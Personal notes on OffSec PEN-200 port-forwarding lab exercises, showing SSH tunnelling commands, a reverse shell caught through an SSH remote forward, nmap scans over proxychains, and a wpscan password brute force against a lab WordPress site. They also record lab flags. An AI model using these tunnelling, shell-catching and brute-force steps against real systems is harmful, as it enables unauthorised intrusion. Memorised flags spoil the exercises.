


# offsec labs

backlinks: [[snippets-bash]]

sources:

---

## PEN-200: 20.2.2

 Exercises

(To be performed on your own Kali, Debian and Windows lab server machines - Reporting is required for these exercises)

    Connect to your dedicated Linux lab client and run the clear_rules.sh script from /root/port_forwarding_and_tunneling/ as root.
    Run the ssh_local_port_forwarding.sh script from /root/port_forwarding_and_tunneling/ as root.
    Take note of the Linux client and Windows Server 2016 IP addresses shown in the Student Control Panel.
    Attempt to replicate the smbclient enumeration covered in the above scenario.

(To be performed with the Topic Exercises VMs under “Resources” - Reporting is not required for these exercises)

5. There is an internally hosted website on the target VM #1 which is reachable only from the server's local address space. Browse to this server to get the flag.

```

any request on port 5555 will redirect to 127.0.0.1:80 on 192.168.121.52

sudo ssh -N -L 0.0.0.0:5555:127.0.0.1:80 student@192.168.121.52 -p 2222


here is your flag: OS{11f7aa675ad74d61fbd4a67b1080c44d} 


```


## PEN-200 20.2.4

 Exercises

(To be performed on your own Kali and Debian lab client machines - Reporting is required for these exercises)

    Connect to your dedicated Linux lab client via SSH and run the clear_rules.sh script from /root/port_forwarding_and_tunneling/ as root.
    Close any SSH connections to your dedicated Linux lab client and then connect as the student account using rdesktop and run the ssh_remote_port_forward.sh script from /root/port_forwarding_and_tunneling/ as root.
    Attempt to replicate the SSH remote port forwarding covered in the above scenario and ensure that you can scan and interact with the MySQL service.

(To be performed with the Topic Exercises VMs under “Resources” - Reporting is not required for these exercises)

4. The target VM #1 machine has an exploit that is triggered by root every minute that executes a basic reverse shell. Unfortunately, that shell is trying to connect back to the internal port 5555 on 127.0.0.1 on that server, and the server has no tools available to catch this shell. To solve this challenge, forward this reverse shell callback from the remote server to your local machine and then use this shell to read the flag.

```


redirect 127.0.0.1:5555 to attacker ip 


ssh -N -R 127.0.0.1:5555:192.168.119.121:5555 student@$IP


┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/20-PortTunnelling]
└─$ ssh -N -R 127.0.0.1:5555:192.168.119.121:5555 student@$IP -p 2222      
The authenticity of host '[192.168.121.52]:2222 ([192.168.121.52]:2222)' can't be established.
ED25519 key fingerprint is SHA256:6ANG+oADZKtBugsjkdZ8mR4uCUIGVQRTcZ1SLxmQEG0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.121.52]:2222' (ED25519) to the list of known hosts.
student@192.168.121.52's password: 


┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/20-PortTunnelling]
└─$ nc -l -p 5555
bash: cannot set terminal process group (155): Inappropriate ioctl for device
bash: no job control in this shell
root@e02826b6e118:~# ls
ls
flag.txt
rev.sh

root@e02826b6e118:~# cat flag.txt
cat flag.txt
OS{f1110648205704ce94268832eb9faf0a}
root@e02826b6e118:~# 


```

## PEN-200 20.2.6 SSH Dynamic Port Forwarding

 Exercises

(To be performed on your own Kali and Windows lab server machines - Reporting is required for these exercises)

    Connect to your dedicated Linux lab client and run the clear_rules.sh script from /root/port_forwarding_and_tunneling/ as root.
    Take note of the Linux client and Windows Server 2016 IP addresses.
    Create a SOCKS4 proxy on your Kali machine, tunneling through the Linux target.
    Perform a successful nmap scan against the Windows Server 2016 machine through the proxy.
    Perform an nmap SYN scan through the tunnel. Does it work? Are the results accurate?

(To be performed with the Topic Exercises VMs under “Resources" - Reporting is not required for these exercises)

6. There is a service running on some TCP port in the range of 30000-35000 on the target VM #1. Find it, and you will find the flag. Note: this scan will take a couple minutes to complete, even with you only scanning such a limited range.

```

sudo apt install proxychains

cat /etc/proxychains.conf
# defaults set to "tor"
socks5  127.0.0.1 9050

export IP=192.168.121.52

sudo ssh -N -D 127.0.0.1:9050 student@$IP -p 2222


proxychains sudo nmap -T4 -sS --open -p 30000-35000 $IP


Host is up (0.30s latency).
Not shown: 5000 closed tcp ports (conn-refused)
PORT      STATE SERVICE
34023/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1475.41 seconds
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/…/bravo/offsec/pen200/20-PortTunnelling]
└─$ sudo proxychains nmap -sT 127.0.0.1 -p30000-35000

port is 34023


┌──(kali㉿kali)-[~]
└─$ proxychains nc -nv 127.0.0.1 34023

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:34023  ...  OK
(UNKNOWN) [127.0.0.1] 34023 (?) open : Operation now in progress
ls
flag.txt
cat flag.txt
OS{e592a33511a326940ea2b8ab63f65e4c}


```

7. There is a WordPress instance running on the target VM #2 that is only accessible locally. The flag is not simply in a post once you log in - you need to use this administrative web to gain access to the box as www-data. To save you time, the admin user is offsec. Use your local user SSH access to forward your password attack traffic to this server to determine the admin password. Then, utilize this admin access to get a web shell and, finally, read /home/flag.txt to solve this challenge. Note: for this exercise try different well-known wordlists. Also, make sure to block browser's DNS requests over proxychains.

```


sudo ssh -N -D 127.0.0.1:8080 student@$IP -p 2222

#new tab
┌──(kali㉿kali)-[~]
└─$ proxychains nmap --top-ports=20 -sT -Pn 127.0.0.1     
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-13 16:32 AEST
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:21 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:25 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:111 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:23 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:1723 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:22  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:135 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:995 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:3389 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:139 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:443 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:3306  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:143 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:993 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:445 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:110 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:5900 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:8080 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:53 <--socket error or timeout!
Nmap scan report for localhost (127.0.0.1)
Host is up (0.26s latency).

PORT     STATE  SERVICE
21/tcp   closed ftp
22/tcp   open   ssh
23/tcp   closed telnet
25/tcp   closed smtp
53/tcp   closed domain
80/tcp   open   http
110/tcp  closed pop3
111/tcp  closed rpcbind
135/tcp  closed msrpc
139/tcp  closed netbios-ssn
143/tcp  closed imap
443/tcp  closed https
445/tcp  closed microsoft-ds
993/tcp  closed imaps
995/tcp  closed pop3s
1723/tcp closed pptp
3306/tcp open   mysql
3389/tcp closed ms-wbt-server
5900/tcp closed vnc
8080/tcp closed http-proxy

Nmap done: 1 IP address (1 host up) scanned in 5.42 seconds


#CURL works

┌──(kali㉿kali)-[~]
└─$ proxychains curl 127.0.0.1                       
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK
<!doctype html>
<html lang="en-US" >
<head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1" />
        <title>Port Forwarding Challenge &#8211; Just another WordPress site</title>
<meta name='robots' content='max-image-preview:large' />
<link rel='dns-prefetch' href='//s.w.org' />
<link rel="alternate" type="application/rss+xml" title="Port Forwarding Challenge &raquo; Feed" href="http://127.0.0.1/index.php/feed/" />
<link rel="alternate" type="application/rss+xml" title="Port Forwarding Challenge &raquo; Comments Feed" href="http://127.0.0.1/index.php/comments/feed/" />
                <script>
                        window._wpemojiSettings = {"baseUrl":"https:\/\/s.w.org\/images\/core\/emoji\/13.1.0\/72x72\/","ext":".png","svgUrl":"https:\/\/s.w.org\/images\/core\/emoji\/13.1.0\/svg\/","svgExt":".svg","source":{"concatemoji":"http:\/\/127.0.0.1\/wp-includes\/js\/wp-emoji-release.min.js?ver=5.8.2"}};
                        !function(e,a,t){var n,r,o,i=a.createElement("canvas"),p=i.getContext&&i.getContext("2d");function s(e,t){var a=String.fromCharCode;p.clearRect(0,0,i.width,i.height),p.fillText(a.apply(this,e),0,0);e=i.toDataURL();return p.clearRect(0,0,i.width,i.height),p.fillText(a.apply(this,t),0,0),e===i.toDataURL()}function c(e){var t=a.createElement("script");t.src=e,t.defer=t.type="text/javascript",a.getElementsByTagName("head")[0].appendChild(t)}for(o=Array("flag","emoji"),t.supports={everything:!0,everythingExceptFlag:!0},r=0;r<o.length;r++)t.supports[o[r]]=function(e){if(!p||!p.fillText)return!1;switch(p.textBaseline="top",p.font="600 32px Arial",e){case"flag":return s([127987,65039,8205,9895,65039],[127987,65039,8203,9895,65039])?!1:!s([55356,56826,55356,56819],[55356,56826,8203,55356,56819])&&!s([55356,57332,56128,56423,56128,56418,56128,56421,56128,56430,56128,56423,56128,56447],[55356,57332,8203,56128,56423,8203,56128,56418,8203,56128,56421,8203,56128


└─$ proxychains firefox
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
ATTENTION: default value of option mesa_glthread overridden by environment.
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:1080 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  ::1:1080 [proxychains] DLL init: proxychains-ng 4.16
<--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:1080 [GFX1-]: Unrecognized feature ACCELERATED_CANVAS2D
<--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  ::1:1080 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:1080 Missing chrome or resource URL: resource://gre/modules/UpdateListener.jsm
Missing chrome or resource URL: resource://gre/modules/UpdateListener.sys.mjs
<--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  ::1:1080 [proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
<--socket error or timeout!
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:1080 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  ::1:1080 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:1080 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  ::1:1080 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:1080 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  ::1:1080 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK
[proxychains] DLL init: proxychains-ng 4.16


┌──(kali㉿kali)-[~]
└─$ proxychains wpscan --url http://127.0.0.1 --passwords /usr/share/wordlists/john.lst     
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK
[+] URL: http://127.0.0.1/ [127.0.0.1]
[+] Started: Mon Mar 13 19:18:24 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.51 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://127.0.0.1/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://127.0.0.1/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://127.0.0.1/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://127.0.0.1/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.8.2 identified (Insecure, released on 2021-11-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://127.0.0.1/index.php/feed/, <generator>https://wordpress.org/?v=5.8.2</generator>
 |  - http://127.0.0.1/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.8.2</generator>

[+] WordPress theme in use: twentytwentyone
 | Location: http://127.0.0.1/wp-content/themes/twentytwentyone/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://127.0.0.1/wp-content/themes/twentytwentyone/readme.txt
 | [!] The version is out of date, the latest version is 1.7
 | Style URL: http://127.0.0.1/wp-content/themes/twentytwentyone/style.css?ver=1.4
 | Style Name: Twenty Twenty-One
 | Style URI: https://wordpress.org/themes/twentytwentyone/
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://127.0.0.1/wp-content/themes/twentytwentyone/style.css?ver=1.4, Match: 'Version: 1.4'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                               > (0 / 137)  0.00%  ETA: ??:??:??
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                              > (16 / 137) 11.67%  ETA: 00:00:21
 Checking Config Backups - Time: 00:00:14 <=============================================================================================================> (137 / 137) 100.00% Time: 00:00:14

[i] No Config Backups Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <==============================================================================================================> (10 / 10) 100.00% Time: 00:00:01
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK

[i] User(s) Identified:

[+] offsec
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://127.0.0.1/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Performing password attack on Wp Login against 1 user/s
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                              > (0 / 3559)  0.00%  ETA: ??:??:??
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OKer of occurrences Time: 00:00:00 <                                            > (4 / 3559)  0.11%  ETA: 00:11:11
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                              > (9 / 3559)  0.25%  ETA: 00:09:58
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (14 / 3559)  0.39%  ETA: 00:09:26
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (19 / 3559)  0.53%  ETA: 00:09:20
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (24 / 3559)  0.67%  ETA: 00:09:15
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (29 / 3559)  0.81%  ETA: 00:09:12
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (34 / 3559)  0.95%  ETA: 00:09:50
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (39 / 3559)  1.09%  ETA: 00:09:43
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (44 / 3559)  1.23%  ETA: 00:09:36
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (49 / 3559)  1.37%  ETA: 00:09:31
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (54 / 3559)  1.51%  ETA: 00:09:28
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (59 / 3559)  1.65%  ETA: 00:09:24
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (64 / 3559)  1.79%  ETA: 00:09:21
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (69 / 3559)  1.93%  ETA: 00:09:18
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (74 / 3559)  2.07%  ETA: 00:09:15
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (79 / 3559)  2.21%  ETA: 00:09:13
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (84 / 3559)  2.36%  ETA: 00:09:11
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (89 / 3559)  2.50%  ETA: 00:09:09
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (94 / 3559)  2.64%  ETA: 00:09:07
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                             > (99 / 3559)  2.78%  ETA: 00:09:06
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (104 / 3559)  2.92%  ETA: 00:09:04
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (109 / 3559)  3.06%  ETA: 00:09:02
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (114 / 3559)  3.20%  ETA: 00:09:01
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (119 / 3559)  3.34%  ETA: 00:08:59
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (124 / 3559)  3.48%  ETA: 00:08:57
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (129 / 3559)  3.62%  ETA: 00:08:55
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (134 / 3559)  3.76%  ETA: 00:08:54
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (139 / 3559)  3.90%  ETA: 00:08:53
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (144 / 3559)  4.04%  ETA: 00:08:52
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (149 / 3559)  4.18%  ETA: 00:08:51
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (154 / 3559)  4.32%  ETA: 00:08:50
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (159 / 3559)  4.46%  ETA: 00:08:49
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (164 / 3559)  4.60%  ETA: 00:08:48
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (169 / 3559)  4.74%  ETA: 00:08:47
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (174 / 3559)  4.88%  ETA: 00:08:46
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (179 / 3559)  5.02%  ETA: 00:08:45
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (184 / 3559)  5.16%  ETA: 00:08:44
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (189 / 3559)  5.31%  ETA: 00:08:43
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (194 / 3559)  5.45%  ETA: 00:08:42
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (199 / 3559)  5.59%  ETA: 00:08:41
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (204 / 3559)  5.73%  ETA: 00:08:40
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (209 / 3559)  5.87%  ETA: 00:08:53
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (214 / 3559)  6.01%  ETA: 00:08:52
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (219 / 3559)  6.15%  ETA: 00:08:50
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (224 / 3559)  6.29%  ETA: 00:08:49
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (229 / 3559)  6.43%  ETA: 00:08:48
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (234 / 3559)  6.57%  ETA: 00:08:47
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (239 / 3559)  6.71%  ETA: 00:08:45
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (244 / 3559)  6.85%  ETA: 00:08:44
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (249 / 3559)  6.99%  ETA: 00:08:43
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (254 / 3559)  7.13%  ETA: 00:08:41
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (259 / 3559)  7.27%  ETA: 00:08:40
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (264 / 3559)  7.41%  ETA: 00:08:39
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (269 / 3559)  7.55%  ETA: 00:08:38
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (274 / 3559)  7.69%  ETA: 00:08:36
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (279 / 3559)  7.83%  ETA: 00:08:35
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (284 / 3559)  7.97%  ETA: 00:08:35
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (289 / 3559)  8.12%  ETA: 00:08:34
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (294 / 3559)  8.26%  ETA: 00:08:33
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (299 / 3559)  8.40%  ETA: 00:08:32
[proxychains] Dynamic chain  ...  127.0.0.1:8080  ...  127.0.0.1:80  ...  OK                                                                            > (304 / 3559)  8.54%  ETA: 00:08:30
